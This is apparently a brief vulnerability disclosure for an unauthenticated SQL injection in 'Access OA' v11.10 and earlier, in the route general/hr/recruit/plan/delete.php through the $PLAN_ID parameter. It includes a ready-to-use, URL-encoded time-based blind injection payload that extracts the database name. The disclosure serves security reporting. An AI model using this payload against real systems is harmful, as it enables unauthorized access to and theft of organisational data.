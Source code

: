 Unauthorized SQL injection vulnerability exists in Access OA

version:v11.10 or earlier

Routing: general/hr/recruit/plan/delete. PHP

The injected parameter $PLAN_ID exists

Here the code is very concise, when the $PLAN_ID is not empty, the parameter is concatenated directly into the SQL statement, and there is a bypass because of the parenthesis closure.

![image](https://github.com/husterdjx/cve/assets/80690447/95306d5d-d0a8-4c3d-8083-90ea30d51a65)

poc
```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

The page has obvious delay, indicating that SQL injection vulnerability exists
![WPS图片(1)](https://github.com/husterdjx/cve/assets/80690447/5fd73294-da88-42a8-ad7b-57c9b79c1679)

